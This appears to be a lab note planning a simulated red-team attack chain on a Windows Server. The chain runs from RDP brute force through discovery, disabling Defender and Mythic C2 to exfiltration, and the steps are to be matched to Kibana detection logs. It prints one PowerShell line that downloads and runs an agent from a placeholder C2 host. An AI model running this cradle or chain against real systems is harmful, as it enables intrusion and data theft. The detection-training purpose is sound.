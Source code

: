 
## Introduction

Goal: Create an attack diagram that outlines the sequence of actions taken to compromise a target Windows Server, establish a C2 connection, and exfiltrate data. The diagram will be used as a visual plan for simulating and analyzing the attack.

Tool: draw.io (for creating the diagram)

---

## Components of the Diagram

- **Attacker Laptop (Kali Linux)**
    
    - Color: Red
    - Role: Launch brute force and control the attack.
        
- **Windows Server (Target Machine)**
    
    - Role: System to be compromised via RDP brute force.
        
- **Mythic C2 Server**
    
    - Color: Red
    - Role: Command and control platform for managing the compromised machine.
        
- **Internet**
    
    - Role: Communication channel between attacker and target.
        
- **SSH Server (optional)**
    
    - Role: Potential future target.
        

---

## Attack Phases

### Phase 1: Initial Access

- Method: RDP brute force attack from attacker’s Kali Linux machine.
- Target: Windows Server.
- Goal: Gain successful authentication into the target system.

`event.code: 4625 (Failed) event.code: 4624 (Success)`

---

### Phase 2: Discovery

- After gaining access, the attacker runs basic reconnaissance commands to learn about the system:
    
    `whoami ipconfig net user net group`
    
- Goal: Identify user permissions, network configuration, and system information.

---

### Phase 3: Defense Evasion

- The attacker disables Windows Defender to bypass security controls.
- Command executed within the RDP session.
- Purpose: Prevent security tools from blocking the next steps.

---

### Phase 4: Execution

- Using PowerShell, the attacker downloads and executes the Mythic agent from the Mythic C2 server:
    
    `IEX (New-Object Net.WebClient).DownloadString('http://<C2_SERVER>/agent.ps1')`
    
- Goal: Install the agent and prepare for C2 communication.

---

### Phase 5: Command and Control (C2)

- The agent establishes a persistent connection back to the Mythic C2 server.
- The attacker now has remote command execution and monitoring capabilities on the target machine.

---

### Phase 6: Exfiltration

- The attacker simulates data theft by downloading a file (e.g., `password.txt`) from the target machine’s Documents folder through the C2 channel.
- This phase completes the full attack chain from initial access to data exfiltration.

---

## Diagram
![[Untitled Diagram.drawio.png]]



---

## Final Attack Flow Summary

1. Attacker (Kali Linux) → Brute forces RDP credentials on Windows Server.
2. Attacker logs into Windows Server.
3. Attacker runs discovery commands to learn about the environment.
4. Attacker disables Windows Defender for evasion.
5. Attacker uses PowerShell to download and execute Mythic agent.
6. Mythic agent connects to C2 server.
7. Attacker downloads `password.txt` as simulated exfiltration.

---

## Outcome 

- This diagram serves as a structured attack plan for future red team simulations.
- The attack steps can later be correlated with log data in Kibana to analyze detection and response capabilities.

**Reference**
https://youtu.be/jv-qiugJGHg?si=ZhkVu0mDS1YYAhDu